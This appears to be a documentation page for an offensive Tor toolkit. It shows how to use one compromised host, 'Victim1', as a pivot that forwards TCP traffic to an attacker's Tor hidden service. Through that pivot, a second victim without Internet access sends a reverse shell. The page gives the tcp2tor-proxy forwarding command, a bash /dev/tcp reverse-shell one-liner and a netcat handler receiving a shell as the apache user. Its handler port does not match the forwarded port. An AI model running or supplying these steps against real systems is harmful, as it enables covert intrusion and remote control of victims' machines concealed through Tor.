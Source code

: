 # Remote port forwarding with tcp2tor-proxy

We suppose that Victim2 does not have Internet access, so we cannot access Tor directly from it. However, we can use **tcp2tor-proxy** in order to use Victim1 as a Tor proxy for Victim2.

As shown in the following illustration, the attacker will publish a Hidden Service with a handler. With tcp2tor-proxy, Victim1 will serve a TCP port that routes the traffic directly to the Hidden Service. Then, Victim2 will send a simple reverse shell to Victim1 in order to reach the attacker handler.

![Remote port forwarding](https://atorrescogollo.github.io/geekdoc/posts/static/offensive-tor-toolkit/05_tcp2tor-proxy.png)

## 1. Set up the remote port forwarding

{% hint style="info" %}
Previously, the attacker needs to have a **Hidden Service up and running** with an associated onion address. Also, the attacker should **run a netcat handler** for the incoming connections.
{% endhint %}

As Victim1 is the host we will used as a pivot, we will run **tcp2tor-proxy** on it:

```text
[victim1]$ ./tcp2tor-proxy -listen 0.0.0.0:60101 \
    -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

Now, the pivot is listening TCP traffic on port `60101` so that it will be routed to the Hidden Service the attacker owns.

## 2. Reverse shell to tcp2tor-proxy

As the traffic that reach tcp2tor-proxy will be routed to the Hidden Service, Victim2 only needs to send a **simple reverse shell to the pivot**:

```text
[victim2]$ bash -i >& /dev/tcp/victim1/60101 0>&1
```

After executing the above command, the attacker will receive the shell:

```text
[attacker]$ nc -lnvp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

